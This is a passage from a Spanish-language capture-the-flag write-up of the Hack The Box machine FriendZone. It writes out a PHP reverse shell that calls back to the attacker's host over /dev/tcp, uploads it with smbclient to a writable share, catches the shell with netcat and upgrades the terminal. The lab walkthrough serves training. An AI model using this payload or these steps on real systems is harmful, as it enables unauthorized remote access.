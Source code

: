 Muy bien parece que se nos siguen riendo, pero no pasa nada que ya veran. 

Probamos distintas inyecciones de comandos en la url de la pagina pero no funcionan asi que lo unico que creo que puede funcionar es una revershell en el recurso compartido *Development*, que recordemos que se tenia permisos de **lectura** y **escritura**.

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>&1'");
?>

```

Perfecto, una vez metido nuestro archivo en el recurso compartido `//10.10.10.123/Development` procedemos a intentar **ejecutarlo**

```bash

h3g0c1v@kali:~/htb/friendzone$ smbclient //10.10.10.123/Development -N
Try "help" to get a list of possible commands.
smb: \> put h3g0shell.php 
putting file h3g0shell.php as \h3g0shell.php (0,6 kb/s) (average 0,6 kb/s)
smb: \> dir
  .                                   D        0  Sun Sep 12 23:47:58 2021
  ..                                  D        0  Wed Jan 23 22:51:02 2019
  h3g0shell.php                       A       71  Sun Sep 12 23:47:58 2021

		9221460 blocks of size 1024. 6460252 blocks available


```

# Ganamos Acceso a la Maquina

Ahora nos dirijimos a la url en la que se encuentra nuestro archivo malicioso poniendonos en escucha por el puerto `443` para conseguir el acceso a la maquina.

![](/assets/images/htb-writeup-friendzone/acceso.png)

Y genial!! Ya estamos dentro de la maquina victima ahora podemos visualizar la **flag** `user.txt`

```bash
h3g0c1v@kali:~/htb/friendzone$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.123] 42408
bash: cannot set terminal process group (479): Inappropriate ioctl for device
bash: no job control in this shell

```

Primero hacemos un tratamiento de la tty para poder navegar mejor por la terminal y le indicamos como tipo de terminal una xterm

```bash
www-data@FriendZone:/home$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@FriendZone:/home$ ^Z
zsh: suspended  nc -nlvp 443

h3g0c1v@kali:~/htb/friendzone$ stty raw -echo; fg                     
[2]  - continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

```